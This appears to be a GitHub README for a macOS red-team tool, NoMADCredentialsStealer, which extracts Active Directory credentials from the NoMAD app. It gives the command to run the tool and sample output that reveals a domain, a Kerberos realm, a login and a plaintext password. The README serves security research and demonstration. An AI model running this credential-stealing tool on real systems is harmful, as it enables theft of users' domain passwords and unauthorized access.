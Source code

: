 ### NoMADCredentialsStealer
https://wojciechregula.blog/post/macos-red-teaming-get-ad-credentials-from-nomad/

### Usage

```sh
$ ./NoMADCredentialsStealer.app/Contents/MacOS/NoMADCredentialsStealer
$
+-------------------------------+
+   NoMAD Credentials Stealer   +
+  by Wojciech Regula (_r3ggi)  +
+-------------------------------+
+> Domain -> wojciechregula.blog
+> Domain controller -> controller.wojciechregula.blog
+> Kerberos realm -> WOJCIECHREGULA.BLOG
+> AD login -> wregula@WOJCIECHREGULA.BLOG
+> AD password -> Passw0rd
```
